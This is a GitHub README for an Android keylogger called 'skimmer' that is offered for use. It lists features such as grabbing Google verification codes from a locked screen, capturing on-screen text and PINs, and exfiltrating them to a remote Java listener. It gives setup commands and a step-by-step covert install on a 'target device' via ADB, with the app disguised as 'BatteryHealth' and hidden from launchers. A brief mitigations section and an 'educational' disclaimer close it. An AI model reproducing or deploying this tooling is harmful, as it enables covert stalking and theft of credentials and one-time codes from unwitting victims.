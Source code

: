 

<!-- PROJECT LOGO -->



get apk editor studio from here https://qwertycube.com/apk-editor-studio/download/

![Screenshot 2023-03-12 041815](https://user-images.githubusercontent.com/28081004/224581601-aa556135-17a4-474d-8751-f76f467d09a4.png)
![Screenshot 2023-03-12 150758](https://user-images.githubusercontent.com/28081004/224581608-0b5a2a19-85c2-4968-a103-577192038d36.png)
current gmail version has a buffer to prevent spam :)
✅ PASSED GOOGLE VIRUS SCAN

![demo](https://user-images.githubusercontent.com/28081004/216733696-e7d1c552-5884-46b2-82c9-5221f9ece36f.gif)












# Listener Features

- reads hidden notifications in locked state (grabs google code before owner sees it)

- grabs almost all text on the screen the user is looking at.

- works over WAN without open ports on phones end

- filtered tabs for different apps to reduce logs for easy reading 

- gets pin code

- auto-scrolling

- logs date and time w/ save

# quick use (use latest release) 

android 9 and bellow for now replace icon with transparent one in a icon editor
- this is for phones with dynamic app icons or whatever it was if the icons shows for you.


jdk19 

```
wget https://download.oracle.com/java/19/latest/jdk-19_linux-x64_bin.deb

sudo apt-get -qqy install ./jdk-19_linux-x64_bin.deb

sudo update-alternatives --install /usr/bin/java java /usr/lib/jvm/jdk-19/bin/java 1919
```

```
git clone https://github.com/ttateluc/skimmer.git
cd skimmer/Listener/java
java -jar MessageListener.jar
sudo ufw allow 4444 "if on linode or on WAN" no need for open ports on android's side
```
```
download APK Editor studio and open up the apk and search for "192.168.0.135"
and replace the ip in the two smali files mainactivity and messegesener with your
own ip and save the apk thanks to 2.0 release
```

# STEALTH ( OLD )

TIP! install via ADB to avoid recent apps timestamp, also settings does not show in this list, also to assure hiden icon in some cases
UPDATE: if all fails try long pressing the home screen to open launcher settings for a hide apps option.


1. have a device with adb setup in a terminal and run adb tcpip 5555 with a phone charger plugged in (also have the stealth apk ready in same dir)
2. make a new folder on the adb pc with this structure com.BatteryHealth/files/keys/fix.dat
3. in the fix.dat file you made, insert ip:port in line 1 and save (ip and port of remote device with skimmer listener, works in linode)
4. grab target device , open settings , enable dev options if need be then usb debugging
5. connect phone , tap always allow usb debug
6. run adb tcpip 5555 again and run adb install Stealth.apk (this hides from recent apps and settings sometimes does not even show as opened)
7. turn off usb debug and enable the accessibility service
8. copy and paste the com.BatteryHealth folder into android/data after turning on file tranfer

in android 9 and bellow this will install the app with no icon on the launcher or docked apps (wont even be on the screen, perioid)
only way you can see this is if you open accessibility settings or scroll all the way down in installed apps as its never a recent one.
10 and up this will add a shortut named ZbatteryHealth with no icon but will be seen in the launcher, move it to a folder or replace app name with \ in 
manifest file but this will make the app show in the top of installed

due to new security features android API 29 and above (Oreo and up I believe) it will make it hard to near impossible to hide the app without root.
The stealth version does not allow the app to be open, just a white icon, and it just opens the app details menu, sits in the app drawer.

In stealth, you must make and place your own fix.dat file in the app directory 
Android/data/com.BatteryHealth/files/key/fix.dat
after making fix.dat inside, add "192.168.0.135:4444"
without the quotes and replace IP and port with your own IP:PORT

this option has removed all words "keylogger" and "malware" from UI and code as well as folders and hides the app 100% except settings installed list in
android BELLOW Oreo, API 29 and up it will just open app info not showing the IP port field

![Screenshot_20230121_092852](https://user-images.githubusercontent.com/28081004/213873696-b7104b3c-7a17-46a5-a80d-11af8cfee183.png) ![Screenshot_20230121_092759](https://user-images.githubusercontent.com/28081004/213873716-8d0265db-4b4a-443f-8749-7549fa4f2f48.png)





# NORMAL INSTALL

open the app and just place your IP:PORT and tap send (the ip of the device you will listen on)
you may need to open settings/apps/app-name then tap 3 dots top right and allow special permissions
make sure where you got the file from via web browser and or file manager has access,ES works if you have problems
open accessibility settings and enable keylogger or BatteryHealth
no manual fix.dat required



# Stealth install tldr

![stealth_install](https://user-images.githubusercontent.com/28081004/215221291-f4a05ea5-448d-4b1d-ade3-8bec23c53a70.gif)

create a file named fix.dat and copy and PASTE it into android/data/com.BatteryHealth/files/key/
insert ip and port of machine with java listener IP:port








# mitigations

can I protect my passwords from this, even while hacked?
Open dev options and under privacy turn off show passwords when typed

how do I look for this

CHECK
accessibility settings for any downloaded services or if any are on (name don't matter)
hide apps section in launcher
for a fix.dat file in android/data/APP-NAME/files/key/fix.dat
installed apps section in settings, could show as a blank icon as ZBatteryHealth but this could be put in any apk (so rely on service list)




Legal Disclaimer: For Educational Purpose Only

